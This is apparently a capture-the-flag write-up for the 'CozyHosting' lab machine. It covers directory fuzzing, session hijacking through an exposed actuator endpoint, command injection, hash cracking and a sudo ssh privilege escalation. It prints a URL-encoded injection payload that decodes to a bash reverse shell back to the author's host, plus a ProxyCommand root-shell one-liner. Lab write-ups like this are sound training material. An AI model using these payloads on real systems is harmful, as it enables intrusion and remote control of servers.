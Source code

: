 # Write Up
## Introduction
Before starting to present the way it has been taken to solve CozyHosting machine, I will present an outline with the concepts that will be used to solve challenge:
- Exhaustive enumeration of the website.
- Session Hijacking.
- Command injection.
- Hash cracking with Hascat.
- Abuse of ssh SUID configuration.
## Reconnaisance phase
As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, you need to add a new line in the ''/etc/hosts'' file, where you define which IP is linked to which domain name. As shown in the following image, if you want to access CozyHosting.htb, you are going to send a request to 10.10.11.230 really:

[![hosts.png](https://i.postimg.cc/x1P6MnhB/hosts.png)](https://postimg.cc/WdhmPL27)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/5yRVx8qq/Nmap.png)](https://postimg.cc/GTGNK8fH)

As shown in the last image, two open ports were discovered exposing two different services:
- Port 22: SSH service.
- Port 80: HTTP service.

Due to the fairly up-to-date version of SSH, it seems that the way to go is to perform a technology scan on port 80.

[![WhatWeb.png](https://i.postimg.cc/prjXB6k4/WhatWeb.png)](https://postimg.cc/649XWzkf)

As you can see, nginx 1.18.0 is running behind, but no important information is displayed. Therefore, the website was accessed to look for some useful information:

[![image.png](https://i.postimg.cc/xqr7KsFs/image.png)](https://postimg.cc/y3PvKTK9)

After searching for information, the only data retrieved is the login panel behind the path "/login". So a search was initiated using Wfuzz to list more paths and resources on the server.

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://CozyHosting.htb/FUZZ 
```

The following diagram represents the paths and resources found:

[![diagrama.png](https://i.postimg.cc/fRT8Ft0W/diagrama.png)](https://postimg.cc/svqPG2cb)

After finding these resources on the web, you can test some potential vulnerabilities, for example bypassing the login panel with a SQLi or Type Juggling, etc. ..... But nothing worked.
If you find yourself in this situation and you have tested all possible vulnerabilities, it is likely that you have not done a thorough reconnaissance.  Therefore, Wfuzz was ran again with another dictionary:

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt http://CozyHosting.htb/FUZZ
```

With that dictionary, another route called "actuator" was found, if you go into it you will find more paths, as shown behind:

[![image.png](https://i.postimg.cc/DfgtjbC0/image.png)](https://postimg.cc/SjnTjjbb)
## Exploitation phase

A session ID can be found in the path "sessions". With this session ID under control it is possible to perform a session hijacking. So it was copied and pasted into the cookie that the website assigned to me.

Now, if you enter the login panel, the website redirects you directly to the administration section:

[![Admin.png](https://i.postimg.cc/90pLFS8T/Admin.png)](https://postimg.cc/XBrfs207)

Within the administration section there is only one function to exploit. Apparently, this function runs a shell command to connect via ssh to other machines, with a private key, to update their installed software. This command might be something like the following:

```bash
ssh -i id_rsa.pem <username>@<hostname>
```

Since the page is running a shell command upon receiving the request, it is likely vulnerable to command execution. Therefore, a payload "; whoami" was injected into both fields. First in the hostname field:

[![Burp2.png](https://i.postimg.cc/QNmwSS1B/Burp2.png)](https://postimg.cc/F1fTHyPm)

As you can see, this injection did not work on the hostname field, so you will probably have to enter a correct hostname. The second field was tested by entering the same payload to see the response:

[![Burp3.png](https://i.postimg.cc/QNky6SGL/Burp3.png)](https://postimg.cc/Th101V3Q)

In this case, another error is reported. As the web page tells us not to use whitespace, an Internal Field Separator was injected to see the response from the web page:

[![Burp4.png](https://i.postimg.cc/k4Mj66wV/Burp4.png)](https://postimg.cc/R38120k9)

The error changed, so the payload was injected and we are informed that the command "whoami@10.10.11.230" does not exist. So, the payload works because I am avoiding the ssh command and the whitespace was interpreted by the shell.
Now, this error can be fixed by injecting a # to comment out the rest of the command that I do not want.

[![image.png](https://i.postimg.cc/kMYbd6bj/image.png)](https://postimg.cc/vD9BrmX9)

The injected command did not return any results. But this doesn't mean that the command injection didn't work, because the web page is probably not showing the response. So why not create a server and inject a request to my server?

[![Burp6.png](https://i.postimg.cc/zfSVV3PR/Burp6.png)](https://postimg.cc/jW2s1qTs)

As you can see, this works so I am injecting shell commands into the server. It is time to create a reverse shell and get access to the server. The payload used was:

```
host=10.10.11.230&username=%3b${IFS}echo${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMC85OTk5IDA%2bJjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash%3b${IFS}%23
```

The reverse shell was encoded with the base64 algorithm to avoid problems when sending it through a request. And the entire payload was urlencoded for the same reason.

[![Evidencia.png](https://i.postimg.cc/7L8bXSTR/Evidencia.png)](https://postimg.cc/K1fZ8kf7)
## Post-Exploitation phase
### Privilege escalation to Josh

After gaining access to the app user, it's time to do a system recon. A couple of things could be found: 

- A file called cloudhosting-0.0.1.jar.
- And a postrgreSQL running on port 5432.
 
The .jar extension is typical of two types of Java programming language files. On the one hand, a .jar file can be a Java application file, i.e. a program that, as such, can be executed.


On the other hand, a .jar file usually contains a library with several files. The .jar extension is short for Java Archive and usually contains, as the name suggests, several Java files and metadata that are sent synthesised and compressed. In addition to .jar files, this extension can also contain images, audio files or other formats and works similarly to a .zip file.


Because of the last comment there are two possible ways to see the content of that file:

- Unzip the file, for example with 7z.

```bash
7z x cloudhosting-0.0.1.jar
```

- Or use an application like jd-gui, which allows you to see the whole content without decompressing the file.

```bash
jd-gui & 2>/dev/null disown
```

Using jd-gui you can find some credentials for accessing postgreSQL:

[![credentials.png](https://i.postimg.cc/5tjXbr7Q/credentials.png)](https://postimg.cc/5Hd4msMf)

By entering the correct credentials and accessing the cozyhosting database you can see two hashes:

```bash
psql -h localhost -U postgres
```

[![Postgre.png](https://i.postimg.cc/KzV2yqKf/Postgre.png)](https://postimg.cc/KknVP5D3)

By retrieving both hashes, it is now possible to crack them using hascat, resulting in the following file:

[![cracked.png](https://i.postimg.cc/50j3Z1FH/cracked.png)](https://postimg.cc/jw0P7pcK)

If you use the password that has been decrypted above, you will be logged in as the user Josh.
### Privilege escalation to Root

After logging in as Josh, it's time to do another system recon. If you have listed the user's sudo permissions, you will see that he can run the ssh command as superuser. Because of this misconfiguration, it is possible to launch a sh as the root user and get privilege escalation.

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

[![sudo.png](https://i.postimg.cc/SQgwHN2r/sudo.png)](https://postimg.cc/XXyHCWgG)

